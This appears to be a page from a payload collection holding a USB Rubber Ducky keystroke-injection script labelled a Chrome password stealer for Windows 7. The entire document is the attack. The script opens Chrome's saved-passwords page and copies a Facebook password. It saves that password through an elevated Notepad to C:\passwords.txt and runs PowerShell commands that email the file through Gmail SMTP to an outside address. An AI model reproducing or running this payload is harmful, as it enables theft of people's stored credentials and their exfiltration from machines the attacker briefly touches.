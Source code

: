 Steals Chrome passwords in the blink of an eye.
Credits: This payload was created by nuk3leus

'''
REM Author: Nuk3leus
REM Ducky chrome password stealer: 1.0
REM Target: Windows 7
REM Description: Opens chrome, navigates to chrome settings, navigates to saved passwords, searches for facebook, shows password, copys password
REM closes chrome, Opens notepad with bypass uac so it can save to C:\ drive and pastes in password 
REM saves to C:\passwords.txt folder, closes notepad
REM sends files via gmail to account.
DELAY 2000
REM -------------open chrome
GUI r
DELAY 1000
STRING chrome
DELAY 1000
ENTER
DELAY 4000
REM -------------copy plaintext password
STRING chrome://settings/passwords
ENTER
DELAY 2000
STRING facebook
DELAY 500
TAB
DELAY 500
DOWN
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
ENTER
DELAY 500
ALT D
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
CTRL C
DELAY 500
ALT F4
DELAY 500
REM -------------save file to music folder as passwords.txt
GUI R
DELAY 500
STRING powershell start-process notepad.exe -Verb runAs
DELAY 500 
ENTER
DELAY 2000
ALT y
DELAY 1000
CTRL V
DELAY 500
ALT f
DELAY 500
STRING s
DELAY 500
STRING passwords.txt
DELAY 500
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
STRING c
DELAY 1000
STRING l
DELAY 500
ENTER
DELAY 500
ALT S
DELAY 1000
ALT F4
DELAY 500
REM -------------email log via gmail
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('youremail@gmail.com', 'password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'youremail@gmail.com'
ENTER
STRING $ReportEmail.To.Add('toemail@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Ducky chrome passwords'
ENTER
STRING $ReportEmail.Body = 'Attached is your list of passwords.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\passwords.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 3000
STRING exit
ENTER
'''
